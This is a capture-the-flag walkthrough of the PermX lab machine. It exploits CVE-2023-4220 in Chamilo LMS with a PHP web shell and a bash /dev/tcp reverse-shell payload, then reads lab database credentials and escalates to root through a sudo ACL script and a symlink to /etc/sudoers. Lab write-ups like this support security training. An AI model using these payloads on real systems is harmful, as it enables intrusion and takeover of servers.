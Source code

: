 # PermX Writeup

## Overview
**Machine Name:** PermX  
**Date:** 24th October 2024  
**Difficulty:** Easy  

## Synopsis
PermX is an Easy difficulty Linux machine featuring a learning management system vulnerable to unrestricted file uploads via **CVE-2023-4220**. This vulnerability is leveraged to gain a foothold on the machine. Enumerating the machine reveals credentials that lead to **SSH access**. A **sudo misconfiguration** is then exploited to gain a root shell.

## Skills Required
- Linux Command Line
- Web Enumeration

## Skills Learned
- Linux Enumeration
- Sudo Exploitation

---

## Enumeration
### **Nmap Scan**
Scanning the target with **Nmap** reveals two open TCP ports:
- **Port 22**: SSH (OpenSSH 8.9p1 Ubuntu)
- **Port 80**: Apache web server

```bash
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.11.23 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.11.23
```

Output:
```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu
80/tcp  open  http    Apache/2.4.52
```
To access the web server, add the domain to the **hosts file**:
```bash
echo "10.10.11.23  permx.htb" | sudo tee -a /etc/hosts
```

### **Subdomain Enumeration**
Using **ffuf** to enumerate subdomains:
```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt \
-H "Host: FUZZ.permx.htb" -u http://permx.htb -t 200 -ic
```

Identified subdomains:
- `www.permx.htb`
- `lms.permx.htb`

Adding the LMS subdomain to `/etc/hosts`:
```bash
echo "10.10.11.23  lms.permx.htb" | sudo tee -a /etc/hosts
```

---

## Exploitation
### **CVE-2023-4220 - Unrestricted File Upload**
Chamilo LMS is vulnerable to **unauthenticated file upload**.

Creating a **PHP web shell**:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
Uploading the web shell:
```bash
curl -F 'bigUploadFile=@shell.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
Verifying execution:
```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php?cmd=id'
```
Expected output:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### **Reverse Shell**
Starting a **Netcat listener**:
```bash
nc -lnvp {{PORT}}
```
Creating and uploading a **reverse shell payload**:
```bash
echo '<?php system("bash -c \'bash -i >& /dev/tcp/{{IP}}/{{PORT}} 0>&1\'"); ?>' > rev.php
curl -F 'bigUploadFile=@rev.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
Triggering the reverse shell:
```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rev.php'
```
Successful connection on **Netcat listener**:
```
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.23] 39022
```

### **Obtaining User Credentials**
Dumping the **Chamilo configuration file**:
```bash
cat /var/www/chamilo/app/config/configuration.php
```
Extracted credentials:
```
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```
Using these credentials to SSH into the server:
```bash
ssh mtz@permx.htb
```
Obtaining the **user flag**:
```bash
cat user.txt
```

---

## Privilege Escalation
### **Sudo Misconfiguration**
Checking sudo privileges:
```bash
sudo -l
```
Output:
```
User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```
Inspecting **acl.sh**:
```bash
cat /opt/acl.sh
```
The script modifies file **ACLs** in `/home/mtz/` and allows arbitrary file access.

### **Exploiting ACL Misconfiguration**
Creating a **symbolic link** to `/etc/sudoers`:
```bash
ln -s /etc/sudoers /home/mtz/root
```
Granting write permissions via `acl.sh`:
```bash
sudo /opt/acl.sh mtz rw /home/mtz/root
```
Appending a **new sudo rule** to escalate privileges:
```bash
echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root
```
Getting a **root shell**:
```bash
sudo bash
```
Confirming root access:
```bash
id
```
Expected output:
```
uid=0(root) gid=0(root) groups=0(root)
```
Extracting the **root flag**:
```bash
cat /root/root.txt
```

---

## Conclusion
- **Gained foothold** using CVE-2023-4220 file upload vulnerability.
- **Escalated privileges** via a misconfigured ACL script.
- **Successfully rooted** the machine and obtained all required flags.

**Key Takeaways:**
- Always sanitize file uploads to prevent **RCE vulnerabilities**.
- Ensure **sudo permissions** do not allow unrestricted execution of scripts that manipulate system files.
- Enforce **least privilege principles** to reduce risk exposure.

**End of Writeup**
